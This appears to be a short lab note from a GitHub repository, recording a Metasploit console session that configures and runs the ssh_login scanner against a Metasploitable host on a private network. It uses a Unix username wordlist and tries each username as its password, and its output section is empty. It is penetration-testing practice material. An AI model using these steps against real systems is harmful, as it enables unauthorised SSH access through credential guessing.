


# Metaploitable SSH login attack

## Set options
```
msf6 auxiliary(scanner/ssh/ssh_version) > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set THREADS 3
THREADS => 3
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.0.108
RHOSTS => 192.168.0.108
msf6 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf6 auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
USER_FILE => /usr/share/wordlists/metasploit/unix_users.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_AS_PASS true
USER_AS_PASS => true
msf6 auxiliary(scanner/ssh/ssh_login) > run
```



## Output

